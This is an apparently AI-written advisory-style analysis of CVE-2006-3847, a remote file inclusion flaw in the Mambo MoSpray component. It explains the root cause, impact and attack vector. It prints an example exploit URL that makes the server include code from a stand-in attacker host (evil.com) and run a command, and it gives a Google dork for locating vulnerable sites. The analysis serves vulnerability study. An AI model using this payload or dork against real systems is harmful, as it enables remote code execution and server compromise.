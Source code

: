 Based on the provided information, here's an analysis of CVE-2006-3847:

**Root Cause of Vulnerability:**

*   The vulnerability is a **Remote File Inclusion (RFI)** flaw.
*   The `basedir` parameter in the `admin.php` script (and potentially others like `details.php`, `modify.php`, `newgroup.php`, `newtask.php`, `rss.php`) of the Mambo Component MoSpray does not properly sanitize user input. This allows an attacker to control the path of the included file.

**Weaknesses/Vulnerabilities Present:**

*   **Remote File Inclusion (RFI):** The application directly includes a file whose path is controlled by user-supplied input. This is a classic RFI vulnerability.
*   Lack of Input Sanitization: The `basedir` parameter is not validated or sanitized, enabling the inclusion of arbitrary remote files.

**Impact of Exploitation:**

*   **Arbitrary Code Execution:** By including a malicious file from a remote server, an attacker can execute arbitrary code on the vulnerable server. This can lead to:
    *   Full compromise of the server.
    *   Data theft and manipulation.
    *   Installation of malware.
    *   Defacement of the website.

**Attack Vectors:**

*   **HTTP GET Request:** The vulnerability is exploited through a specially crafted HTTP GET request targeting the vulnerable `admin.php` script and other files, using the `basedir` parameter to specify the remote malicious file.

**Required Attacker Capabilities/Position:**

*   **Network Access:** The attacker needs to have network access to the vulnerable server.
*   **Ability to Host Malicious File:** The attacker needs to have a server to host the malicious file they wish to include.
*   **Understanding of RFI Exploitation:** The attacker needs to know how to exploit RFI vulnerabilities, including crafting the malicious request.

**Technical Details:**

*   The vulnerability exists in the following code snippet:
    ```php
    require("$basedir/components/com_mospray/lang/$lang/admin.php");
    ```
*   The attacker can manipulate the `basedir` parameter in the URL, for example:
    ```
    http://www.site.com/components/com_mospray/scripts/admin.php?basedir=http://evil.com/evil.txt?&cmd=id
    ```
    In this example, `http://evil.com/evil.txt` represents a file controlled by the attacker, and the application will attempt to include and execute this file.

**Additional Information:**

*   The exploit was first published on July 23, 2006.
*   A Google dork for identifying vulnerable sites is provided: `allinurl:"com_mospray"`

The provided content gives a clear picture of the root cause, attack vector, and potential impact of this RFI vulnerability.